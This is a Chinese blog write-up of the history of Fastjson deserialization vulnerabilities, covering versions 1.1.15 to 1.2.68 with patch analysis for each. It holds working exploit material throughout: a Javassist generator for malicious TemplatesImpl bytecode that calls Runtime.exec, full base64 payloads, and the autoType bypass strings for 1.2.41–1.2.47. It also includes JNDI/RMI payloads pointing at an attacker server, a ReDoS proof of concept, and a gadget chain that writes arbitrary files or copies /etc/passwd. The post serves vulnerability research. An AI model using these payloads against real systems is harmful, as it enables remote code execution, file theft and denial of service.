


Fastjson 反序列化漏洞 历史线
Before 1.2.241.1.151.2.x < 1.2.91.2.x <= 1.2.241.2.22 ~ 1.2.24生成bytecodes触发Exp<= 1.2.24 漏洞修复1.2.411.2.41 漏洞触发1.2.41 补丁绕过分析<= 1.2.41 漏洞修复1.2.421.2.42 漏洞触发1.2.42 补丁绕过分析<= 1.2.42 漏洞修复1.2.431.2.43 漏洞触发1.2.43 补丁绕过分析<= 1.2.43 漏洞修复1.2.451.2.45 漏洞触发1.2.45 漏洞分析<=1.2.45 漏洞修复1.2.471.2.47 漏洞触发1.2.47 漏洞分析<= 1.2.47 漏洞修复1.2.591.2.59 漏洞触发1.2.59 漏洞分析<= 1.2.59 漏洞修复1.2.601.2.60 漏洞触发1.2.60 漏洞分析<= 1.2.60 漏洞修复1.2.621.2.62 漏洞触发1.2.62 漏洞分析<=1.2.62 漏洞修复 1.2.63 ~ 1.2.65 ?1.2.681.2.68 漏洞触发1.2.68 漏洞分析<=1.2.68 漏洞修复参考文章
前面写了下Fastjson为啥会触发反序列化漏洞，这篇来看一看它的漏洞历史线（有些只是增加黑名单的更新或者其他更新就不写了）
现在能够找到的最早版本是1.1.15，截至目前最新版本为1.2.75
Before 1.2.24
1.1.15
先从最开始看起 ( java版本jdk1.8.0_121)
用前一篇文章的demo测试，发现已支持@type属性
意思是Fastjson从一开始就存在反序列化漏洞
1.2.x < 1.2.9
啥限制都没有
1.2.x <= 1.2.24
Commit: https://github.com/alibaba/fastjson/commit/92529979e50b59620d34af25d3a0452b18e37b8b
在1.2.9的com/alibaba/fastjson/parser/ParserConfig.class中其实增加了一个denyList，且其中只限制了一个类
this.denyList = new String[]{"java.lang.Thread"};1.2.9之后如果再用@type反序列化java.lang.Thread时会报错：parser deny : java.lang.Thread
翻了翻issues也没找到为啥要禁用这个类..
1.2.24的com.sun.rowset.JdbcRowSetImpl这条RCE链前一篇文章也分析过
后面就都用另一条链（com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl）作为样例
1.2.22 ~ 1.2.24
这里再简单说一下另一条链com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl，其实这条链的RCE部分在CommonsCollections2中也用到了，都是利用bytecodes来实现任意代码执行，只是入口点不同。
有一点是触发这个需要将JSON.parseObject()中的第二个参数设置为Feature.SupportNonPublicField（目标类中私有变量没有setter方法，但是在反序列化时仍想给这个变量赋值）
而这个Feature.SupportNonPublicField参数在1.2.22版本中才出现
CC2中是直接调用newTransformer()方法，而Fastjson反序列化只能触发getter和setter这种，所以这里的入口为getOutputProperties()，其中会进一步调用newTransformer()触发
生成bytecodes
这里直接用我在CC2分析中写过的exp
导入javassist
xxxxxxxxxx <dependency> <groupId>org.javassist</groupId> <artifactId>javassist</artifactId> <version>3.25.0-GA</version> </dependency>Exp.java
ximport javassist.ClassPool;import javassist.CtClass;import java.util.Base64;public class Exp { public static class StaticBlock { } public static void main(String[] args) throws Exception { // 生成恶意 bytecodes String code = "{java.lang.Runtime.getRuntime().exec(\"open /System/Applications/Calculator.app\");}"; ClassPool pool = ClassPool.getDefault(); // 父类必须是 AbstractTranslet CtClass clazz = pool.get(StaticBlock.class.getName()); clazz.setSuperclass(pool.get(Class.forName("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet").getName())); clazz.makeClassInitializer().insertBefore(code); byte[] bytecodes = clazz.toBytecode(); String base64encodedString = Base64.getEncoder().encodeToString(bytecodes); // 输出base64后的 bytecodes System.out.println(base64encodedString); }}触发Exp
xxxxxxxxxxJSON.parseObject("{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\",\"_bytecodes\":[\"yv66vgAAADEAJAoAAwAPBwARBwASAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAtTdGF0aWNCbG9jawEADElubmVyQ2xhc3NlcwEAEUxFeHAkU3RhdGljQmxvY2s7AQAKU291cmNlRmlsZQEACEV4cC5qYXZhDAAEAAUHABMBAA9FeHAkU3RhdGljQmxvY2sBABBqYXZhL2xhbmcvT2JqZWN0AQADRXhwAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAcAFAoAFQAPAQAIPGNsaW5pdD4BABFqYXZhL2xhbmcvUnVudGltZQcAGAEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsMABoAGwoAGQAcAQAob3BlbiAvU3lzdGVtL0FwcGxpY2F0aW9ucy9DYWxjdWxhdG9yLmFwcAgAHgEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsMACAAIQoAGQAiACEAAgAVAAAAAAACAAEABAAFAAEABgAAAC8AAQABAAAABSq3ABaxAAAAAgAHAAAABgABAAAABwAIAAAADAABAAAABQAJAAwAAAAIABcABQABAAYAAAAWAAIAAAAAAAq4AB0SH7YAI1exAAAAAAACAA0AAAACAA4ACwAAAAoAAQACABAACgAJ\"],\"_name\":\"c\",\"_tfactory\":{},\"outputProperties\":{}}", Feature.SupportNonPublicField);这里参数传outputProperties或者_outputProperties都可以（在执行到getter前，其内部处理com/alibaba/fastjson/parser/deserializer/JavaBeanDeserializer.class自动将全部的_或-替换为空，但俩个符号不能同时出现，所以这里传_o_u_t_p_u_t_P_r_o_p_e_r_t_i_e_s_也是可以的，而_-outputProperties不行）
而_bytecodes为什么传base64可以触发的原因是Fastjson提取bytes数组字段值时会进行Base64解码
<= 1.2.24 漏洞修复
Fastjson从1.2.25开始引入了checkAutotype安全机制，通过对@type中的类进行黑名单和白名单检测来防御。
Commit: https://github.com/alibaba/fastjson/commit/90af6aadfa9be7592fdc8e174458ddaebb2b19c4
com.sun.在新的denyList中，所以再运行之前的exp会报autoType is not support
autoTypeSupport这里默认为false，首先黑名单判断，对在denyList中的类会抛出异常，而在acceptList中的则直接返回clazz
如果ParserConfig.getGlobalInstance().setAutoTypeSupport(true);，也就是autoTypeSupport设置为true的话能绕过denyList吗？
也不行，因为前面还有一次对autoTypeSupport为真时的黑白名单判断
那这个autoTypeSupport是干啥用的呢？
如果autoTypeSupport为false，黑白名单判断后如果都没有操作，则直接返回autoType is not support，也就是不会管其他类的死活，而如果开启了autoTypeSupport，如果不在黑白名单中，还会继续判断：如果不是ClassLoader或DataSource类的子类或接口也会返回clazz继续执行下去。
设置autoTypeSupport后成功反序列化：
1.2.41
出现了对1.2.25修复补丁的绕过
值得注意的是，必须要设置ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
1.2.41 漏洞触发
xxxxxxxxxx ParserConfig.getGlobalInstance().setAutoTypeSupport(true); JSON.parseObject("{\"@type\":\"Lcom.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;\",\"_bytecodes\":[\"yv66vgAAADEAJAoAAwAPBwARBwASAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAtTdGF0aWNCbG9jawEADElubmVyQ2xhc3NlcwEAEUxFeHAkU3RhdGljQmxvY2s7AQAKU291cmNlRmlsZQEACEV4cC5qYXZhDAAEAAUHABMBAA9FeHAkU3RhdGljQmxvY2sBABBqYXZhL2xhbmcvT2JqZWN0AQADRXhwAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAcAFAoAFQAPAQAIPGNsaW5pdD4BABFqYXZhL2xhbmcvUnVudGltZQcAGAEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsMABoAGwoAGQAcAQAob3BlbiAvU3lzdGVtL0FwcGxpY2F0aW9ucy9DYWxjdWxhdG9yLmFwcAgAHgEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsMACAAIQoAGQAiACEAAgAVAAAAAAACAAEABAAFAAEABgAAAC8AAQABAAAABSq3ABaxAAAAAgAHAAAABgABAAAABwAIAAAADAABAAAABQAJAAwAAAAIABcABQABAAYAAAAWAAIAAAAAAAq4AB0SH7YAI1exAAAAAAACAA0AAAACAA4ACwAAAAoAAQACABAACgAJ\"],\"_name\":\"c\",\"_tfactory\":{},\"outputProperties\":{}}", Feature.SupportNonPublicField);和上面的区别就是@type中的值产生了变化：com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl字符串前后分别加上一个L和;变成了Lcom.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
1.2.41 补丁绕过分析
再次看到checkAutoType()方法中对denyList的判断，className.startsWith(deny)，只判断了className是否以com.sun.这些危险类名字符串开头
前面加了个L可以绕过这个判断，接下来看看为什么能成功解析
在checkAutoType()中经过一系列黑白名单判断后执行到获取clazz的地方
xxxxxxxxxxclazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, false);可以看到如果前后有L和;会循环调用（下个版本绕过用到）去掉，从而绕过补丁反序列化成功。
<= 1.2.41 漏洞修复
1.2.42中对这个有所修复
Commit: https://github.com/alibaba/fastjson/commit/e701faa2da7cff6d94394061bbff06a166c2aaaf
首先是把可读的类字符串数组denyList改为了加密模式的denyHashCodes，有加密的算法，可以自己遍历去跑
然后是对上面绕过漏洞的修复：
只是将className中开头的一个L和结尾的一个;删除，重新得到className，再进行处理
1.2.42
需开启AutoTypeSupport
1.2.42 漏洞触发
xxxxxxxxxx ParserConfig.getGlobalInstance().setAutoTypeSupport(true); JSON.parseObject("{\"@type\":\"LLcom.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;;\",\"_bytecodes\":[\"yv66vgAAADEAJAoAAwAPBwARBwASAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAtTdGF0aWNCbG9jawEADElubmVyQ2xhc3NlcwEAEUxFeHAkU3RhdGljQmxvY2s7AQAKU291cmNlRmlsZQEACEV4cC5qYXZhDAAEAAUHABMBAA9FeHAkU3RhdGljQmxvY2sBABBqYXZhL2xhbmcvT2JqZWN0AQADRXhwAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAcAFAoAFQAPAQAIPGNsaW5pdD4BABFqYXZhL2xhbmcvUnVudGltZQcAGAEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsMABoAGwoAGQAcAQAob3BlbiAvU3lzdGVtL0FwcGxpY2F0aW9ucy9DYWxjdWxhdG9yLmFwcAgAHgEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsMACAAIQoAGQAiACEAAgAVAAAAAAACAAEABAAFAAEABgAAAC8AAQABAAAABSq3ABaxAAAAAgAHAAAABgABAAAABwAIAAAADAABAAAABQAJAAwAAAAIABcABQABAAYAAAAWAAIAAAAAAAq4AB0SH7YAI1exAAAAAAACAA0AAAACAA4ACwAAAAoAAQACABAACgAJ\"],\"_name\":\"c\",\"_tfactory\":{},\"outputProperties\":{}}", Feature.SupportNonPublicField);
1.2.42 补丁绕过分析
根据上面加重的关键字可以知道，绕过1.2.42的漏洞修复只需要在开头和结尾分别再添加一个或多个L，;即可
<= 1.2.42 漏洞修复
Commit: https://github.com/alibaba/fastjson/commit/f92e43095031935a2f8086f2de8831f45c3a34e5
迷惑的写法，跟一遍就知道判断传入的className开头是否存在2个连续的L，如果存在就直接异常抛出了。
1.2.43
需开启AutoTypeSupport
1.2.43 漏洞触发
xxxxxxxxxx ParserConfig.getGlobalInstance().setAutoTypeSupport(true); JSON.parseObject("{\"@type\":\"[com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"[{,\"_bytecodes\":[\"yv66vgAAADEAJAoAAwAPBwARBwASAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAtTdGF0aWNCbG9jawEADElubmVyQ2xhc3NlcwEAEUxFeHAkU3RhdGljQmxvY2s7AQAKU291cmNlRmlsZQEACEV4cC5qYXZhDAAEAAUHABMBAA9FeHAkU3RhdGljQmxvY2sBABBqYXZhL2xhbmcvT2JqZWN0AQADRXhwAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAcAFAoAFQAPAQAIPGNsaW5pdD4BABFqYXZhL2xhbmcvUnVudGltZQcAGAEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsMABoAGwoAGQAcAQAob3BlbiAvU3lzdGVtL0FwcGxpY2F0aW9ucy9DYWxjdWxhdG9yLmFwcAgAHgEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsMACAAIQoAGQAiACEAAgAVAAAAAAACAAEABAAFAAEABgAAAC8AAQABAAAABSq3ABaxAAAAAgAHAAAABgABAAAABwAIAAAADAABAAAABQAJAAwAAAAIABcABQABAAYAAAAWAAIAAAAAAAq4AB0SH7YAI1exAAAAAAACAA0AAAACAA4ACwAAAAoAAQACABAACgAJ\"],\"_name\":\"c\",\"_tfactory\":{},\"outputProperties\":{}}", Feature.SupportNonPublicField);变动的还是前面的部分
xxxxxxxxxx{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",变成了
xxxxxxxxxx{"@type":"[com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl"[{,看起来JSON会报错的样子，但他确实RCE了
1.2.43 补丁绕过分析
还记得之前去除L和;的loadClass()这个方法其实还是有个分支是对[处理的吗？
一样会去除开头的[，得到同样的效果，只不过输入[后会报错，再根据报错一一满足就好
可以直接根据报错信息构造，直接在com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl前面加一个[得到报错exepct '[', but ,, pos 71, json ，那么我们在逗号前添加左中括号得到
{"@type":"[com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl"[
仍报错：syntax error, expect {, actual string, pos 72, fastjson-version 1.2.43
于是在左中括号和逗号中间添加一个左大括号就得到了exp中的内容，且执行后完美弹出计算器。
<= 1.2.43 漏洞修复
Commit: https://github.com/alibaba/fastjson/commit/4e7d252c12df2d27e83742f0ba6d01e490323d74

跟一下得知，修改了检测方式：删了之前的判断，改成遇到[开头或者;结尾的都直接异常抛出
1.2.45
绕过黑名单，需引入mybatis三方库，需开启AutoTypeSupport
首先引入三方库
xxxxxxxxxx <dependency> <groupId>org.mybatis</groupId> <artifactId>mybatis</artifactId> <version>3.5.6</version> </dependency>
1.2.45 漏洞触发
xxxxxxxxxx ParserConfig.getGlobalInstance().setAutoTypeSupport(true); JSON.parseObject("{\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\",\"properties\":{\"data_source\":\"rmi://c014:37777/Exp\"}}");
1.2.45 漏洞分析
利用了黑名单之外的类org.apache.ibatis.datasource.jndi.JndiDataSourceFactory
调用其setProperties()方法

反序列化传入的properties中的data_source指定到自己的恶意服务器即可
<=1.2.45 漏洞修复
1.2.46中又加了一堆黑名单，其中就包括org.apache.ibatis.datasource
Commit: https://github.com/alibaba/fastjson/commit/f51faee23fb9ca81cc802eaf890302e49124e1b3
1.2.47
绕过autoType限制，无需设置AutoTypeSupport
- 1.2.25 ~ 1.2.32：未开启
AutoTypeSupport时能成功利用，开启AutoTypeSupport不能利用 - 1.2.33 ~ 1.2.47：无论是否开启
AutoTypeSupport，都能成功利用
原理是通过java.lang.Class，将目标类加载到Map中缓存，从而绕过checkAutoType检测
1.2.47 漏洞触发
不需要设置AutoTypeSupport，这里直接给出所需的JSON格式(TemplatesImpl这条链还是需要parseObject()第二个参数为Feature.SupportNonPublicField的)
xxxxxxxxxx{ "1":{ "@type":"java.lang.Class", "val":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl" }, "2":{ "@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl", "_bytecodes":["yv66vgAAADEAJAoAAwAPBwARBwASAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAtTdGF0aWNCbG9jawEADElubmVyQ2xhc3NlcwEAEUxFeHAkU3RhdGljQmxvY2s7AQAKU291cmNlRmlsZQEACEV4cC5qYXZhDAAEAAUHABMBAA9FeHAkU3RhdGljQmxvY2sBABBqYXZhL2xhbmcvT2JqZWN0AQADRXhwAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAcAFAoAFQAPAQAIPGNsaW5pdD4BABFqYXZhL2xhbmcvUnVudGltZQcAGAEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsMABoAGwoAGQAcAQAob3BlbiAvU3lzdGVtL0FwcGxpY2F0aW9ucy9DYWxjdWxhdG9yLmFwcAgAHgEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsMACAAIQoAGQAiACEAAgAVAAAAAAACAAEABAAFAAEABgAAAC8AAQABAAAABSq3ABaxAAAAAgAHAAAABgABAAAABwAIAAAADAABAAAABQAJAAwAAAAIABcABQABAAYAAAAWAAIAAAAAAAq4AB0SH7YAI1exAAAAAAACAA0AAAACAA4ACwAAAAoAAQACABAACgAJ"], "_name":"c", "_tfactory":{}, "outputProperties":{} }}
1.2.47 漏洞分析
可以看到第一次传入的@type是java.lang.Class，1.2.47前不在黑名单中，稍微跟一跟
简单说一下漏洞流程：checkAutoType()首先检测java.lang.Class通过并返回
接着往下走到deserializer.deserialze()，deserializer是MiscCodec
跟入之，发现它对java.lang.Class有个判断，执行TypeUtils.loadClass()，这里传入的strVal正是通过val参数传入的com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
在loadClass()中，将目标类加到mappings中（这里传入的cache默认为true）
这样在后面加载TemplatesImpl时可以直接从mappings中取出，从而绕过黑名单限制
<= 1.2.47 漏洞修复
首先是把java.lang.Class放入黑名单
然后将传入默认的cache改为false
1.2.59
1.2.59 漏洞触发
xxxxxxxxxxJSON.parseObject("{\"c\":\"\\x");IDEA中直接Java heap space
1.2.59 漏洞分析
读取值时，一位位判断在判断为\x后，直接用this.next()来获取后面2位，并未判断是否合法
com.alibaba.fastjson.parser.JSONScanner.class#next()获取字符时，如果当前index大于输入的长度，ch默认为\u001a，所以这里之后的字符都是\u001a
而读取这些字符串是在一个while中，而\u001a刚好是26，进入this.isEOF()判断
这里是通过2个条件来EOF
bp（当前读取的长度，这里为8+2=10）是否等于len（输入字符串总长度，{"c":"\x为8位）ch等于26并且bp + 1等于len
显然1，2都不满足，不会异常退出，而且bp越来越大，且每位都是\u001A也就是26，进入这一段的无限循环

<= 1.2.59 漏洞修复
遇到\x后面不符合16进制格式的话直接抛出异常
还修复了的isEOF() 判断逻辑，不再是==而是改为了>=
Commit: https://github.com/alibaba/fastjson/commit/9ce8217d2d54bb8ad621274683a2741a76bfcd37
https://github.com/alibaba/fastjson/commit/995845170527221ca0293cf290e33a7d6cb52bf7
1.2.60
存在两个不在autoType黑名单中可以被利用的三方类
其实之前也有很多三方类都存在问题，比如1.2.59中增加的黑名单ch.qos.logback.core.db.JNDIConnectionSource以及1.2.60中增加的com.zaxxer.hikari.HikariConfig都能RCE，就不都分析了..
1.2.60还存在的是org.apache.commons.configuration.JNDIConfiguration和oracle.jdbc.connector.OracleManagedConnectionFactory
也都是使用了JNDI注入技术实现RCE，需要设置autoType为true
1.2.60 漏洞触发
org.apache.commons.configuration.JNDIConfiguration：
xxxxxxxxxxParserConfig.getGlobalInstance().setAutoTypeSupport(true);JSON.parseObject("{\"@type\":\"org.apache.commons.configuration.JNDIConfiguration\",\"prefix\":\"rmi://c014:37777/Exp\"}");
oracle.jdbc.connector.OracleManagedConnectionFactory：
xxxxxxxxxxParserConfig.getGlobalInstance().setAutoTypeSupport(true);JSON.parseObject("{\"@type\":\"oracle.jdbc.connector.OracleManagedConnectionFactory\",\"xaDataSourceName\":\"rmi://c014:37777/Exp\"}");
1.2.60 漏洞分析
跟最开始的com.sun.rowset.JdbcRowSetImpl类似，没啥好分析的
<= 1.2.60 漏洞修复
当然是增加黑名单啦
且1.2.61把黑名单的10进制格式变为了16进制格式
Commit: https://github.com/alibaba/fastjson/commit/d1c0dff9a33d49e6e7b98a4063da01bbc9325a38
1.2.62
出现了一个无需其他条件的REDOS漏洞
1.2.62 漏洞触发
json格式POC如下
xxxxxxxxxx{ "regex":{ "$ref":"$[poc rlike '^[a-zA-Z]+(([a-zA-Z ])?[a-zA-Z]*)*$']" }, "poc":"aaaaaaaaaaaaaaaaaaaaaaaaaaaa!"}或
xxxxxxxxxx{ "regex":{ "$ref":"$[\poc = /\^[a-zA-Z]+(([a-zA-Z ])?[a-zA-Z]*)*$/]" }, "poc":"aaaaaaaaaaaaaaaaaaaaaaaaaaaa!"}
1.2.62 漏洞分析
自己构造了正则的规则以及需要正则解析的内容
一些列JSON解析之后，如果$ref的值开头是$的话会进入JSONPath.eval(value, ref)
往后就是一些细节判断是否进入正则，可以根据JSONPath官方文档构造
如果直接用JSONPath
xxxxxxxxxxJSONPath.eval("{\"poc\":\"aaaaaaaaaaaaaaaaaaaaaaaaaaaa!\"}", "[poc rlike '^[a-zA-Z]+(([a-zA-Z ])?[a-zA-Z]*)*$']");是会造成REDOS的，刚好和上面那的触发条件一样
更多构造细节见fastjson < 1.2.66 正则表达式拒绝服务漏洞
<=1.2.62 漏洞修复
improved ref handle
增加了一个isRef()判断，只有当segmentType是JSONPath.ArrayAccessSegment或者JSONPath.PropertySegment才执行eval，而漏洞触发这里Rlike调用的是JSONPath.FilterSegment
Commit: https://github.com/alibaba/fastjson/commit/953caee20349c2540f21f12ea13af11ecf77b442
1.2.63 ~ 1.2.65 ?
没这几个版本
直接从1.2.62更新到1.2.66
1.2.68
打开safeMode时，@type这个specialkey完全无用，无论白名单和黑名单，都不支持autoType
xxxxxxxxxxParserConfig.getGlobalInstance().setSafeMode(true);但是这个默认是不开启的
这个版本出现了依靠期望类的Gadget
如果某个类继承了期望类，是可以被反序列化的
出现了以继承java.lang.AutoCloseable，java.lang.Exception类的gadget
但当前几个有危害的链都需要引入三方库
1.2.68 漏洞触发
引入三方库
x
<!-- 复制/写文件 --> <dependency> <groupId>org.aspectj</groupId> <artifactId>aspectjtools</artifactId> <version>1.9.5</version> </dependency> <!-- 写内容 --> <dependency> <groupId>com.esotericsoftware</groupId> <artifactId>kryo</artifactId> <version>4.0.0</version> </dependency> <!-- 触发flush --> <dependency> <groupId>com.sleepycat</groupId> <artifactId>je</artifactId> <version>5.0.73</version> </dependency>
任意写文件：
xxxxxxxxxx { "stream": { "@type": "java.lang.AutoCloseable", "@type": "org.eclipse.core.internal.localstore.SafeFileOutputStream", "targetPath": "f:/test/pwn.txt", "tempPath": "f:/test/test.txt" }, "writer": { "@type": "java.lang.AutoCloseable", "@type": "com.esotericsoftware.kryo.io.Output", "buffer": "YjF1M3I=", "outputStream": { "$ref": "$.stream" }, "position": 5 }, "close": { "@type": "java.lang.AutoCloseable", "@type": "com.sleepycat.bind.serial.SerialOutput", "out": { "$ref": "$.writer" } } }直接复制文件的exp
xxxxxxxxxx{ "stream": { "@type": "java.lang.AutoCloseable", "@type": "org.eclipse.core.internal.localstore.SafeFileOutputStream", "targetPath": "/tmp/passwd", "tempPath": "/etc/passwd" },}
1.2.68 漏洞分析
以这个复制文件的exp来分析
首先获取到的@type是java.lang.AutoCloseable
进入ParserConfig#getDeserializer()，一直走到this.createJavaBeanDeserializer()
在这个方法里会执行new JavaBeanDeserializer(this, clazz, type);来构造JavaBeanDeserializer
接着回到DefaultJSONParser#parseObject()中，会执行JavaBeanDeserializer#deserialze 方法

在deserialze()时，如果第二个字段的key也是@type的时候就会取value当做类名又做了一次checkAutoType检测，此处直接将第二个@type的类名，和前面构造 JavaBeanDeserializer对象时指定的期望类直接传了进来
再看看checkAutoType
可以看到checkAutoType()的第二个参数是expectClass,这里typeName就是org.eclipse.core.internal.localstore.SafeFileOutputStream,而expectClass是java.lang.AutoCloseable(一般情况下是null)
图中991行这里有个黑名单判断
xxxxxxxxxxelse if (expectClass != Object.class && expectClass != Serializable.class && expectClass != Cloneable.class && expectClass != Closeable.class && expectClass != EventListener.class && expectClass != Iterable.class && expectClass != Collection.class) { expectClassFlag = true; }AutoCloeable不在其中..且mappings中有
所以能够一直执行到：
判断org.eclipse.core.internal.localstore.SafeFileOutputStream是否为java.lang.AutoCloseable的子类
而Connection,io类InputStream或OutputStream都直接或者间接实现了AutoCloseable接口
于是就把org.eclipse.core.internal.localstore.SafeFileOutputStream丢入了Mapping中
然后第二次解析到@type为SafeFileOutputStream时就能直接反序列化，而这个类的构造方法中恰好存在一个文件复制，控制targetPath和tempPath即可
为什么构造方法可以？和JavaBeanInfo有参构造函数的获取方式有关
可以看到获取到了targetPath和tempPath
<=1.2.68 漏洞修复
添加黑名单，并改为了hash模式的expectHash
Commit: https://github.com/alibaba/fastjson/commit/9af851152ec142d394a6c8dd0813d33e71adb410
参考文章
https://www.cnblogs.com/AtesetEnginner/p/12565745.html
fastjson 1.2.68 最新版本有限制 autotype bypass
fastjson 1.2.68 autotype bypass 反序列化漏洞（完整版）